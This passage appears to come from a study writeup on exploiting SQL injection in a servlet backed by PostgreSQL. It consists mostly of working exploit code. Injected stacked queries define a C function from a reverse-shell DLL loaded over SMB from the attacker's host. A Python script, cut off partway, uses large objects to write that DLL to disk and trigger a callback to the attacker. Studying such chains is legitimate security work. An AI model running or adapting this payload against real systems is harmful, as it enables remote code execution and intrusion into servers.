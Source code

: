 ```c
```

Below are some example queries we can execute on the target PostgreSQL server to download the
reverse shell, user-defined extension library file payload and execute it:

```python
self.queries = [
            ";DROP+FUNCTION+rev_shell(text,integer);--+",
            f";CREATE+OR+REPLACE+FUNCTION+rev_shell(text,integer)+RETURNS+void+AS+$$\\\\{lhost}\\{samba}\\rev_shell.dll$$,$$rev_shell$$+LANGUAGE+C+STRICT;--+",
            f";SELECT+rev_shell($${lhost}$$,{lport});--+",
        ]
```

## Large objects

We often don't have the ability to get the victim to download our payload from our attacker host
using SMB. How can we transfer the payload with our existing ability to execute arbitrary queries?
With PostgreSQL large objects, we can read and write files from the file system, as well as edit
existing large objects within the database with our payloads.

In the following Python script, we conduct the following actions:

- We read `C:\Windows\win.ini` from disk, creating a large object in the database
- We clobber the large object's contents with our payload
- We write our payload to `C:\Windows\Temp\rev_shell.dll`
- We create a new user-defined function from our payload
- We execute the user-defined function, triggering the reverse shell, calling back to our attacker
  host

```python
import http.client
from argparse import ArgumentParser
from random import randint

import requests

http.client.HTTPConnection.debuglevel = 1
requests.packages.urllib3.disable_warnings()
HEADERS = {"Content-Type": "application/x-www-form-urlencoded"}
API_ENDPOINT = "/servlet/AMUserResourcesSyncServlet"
PARAMS = "ForMasRange=1&userId=1"


class Solution:
    def __init__(
        self, url: str, lhost: str, lport: int, filename: str, id: int
    ) -> None:
        self.s = requests.Session()
        self.url = f"{url.rstrip("/")}{API_ENDPOINT}"
        self.lhost, self.lport, self.filename, self.loid = lhost, lport, filename, id

    def execute_query(self, query) -> None:
        req = requests.Request(
            "POST", self.url, data=PARAMS + ";" + query + ";--+", headers=HEADERS
        )
        prepped = self.s.prepare_request(req)
        self.s.send(prepped, verify=False)

    def solve(self) -> None:
        # Delete existing user-defined function (UDF)
        # Unlink existing large object w/ ID
        # Import large object to clobber
        queries = [
            "DROP FUNCTION rev_shell(text,integer)",
            f"SELECT lo_unlink({self.loid})",
```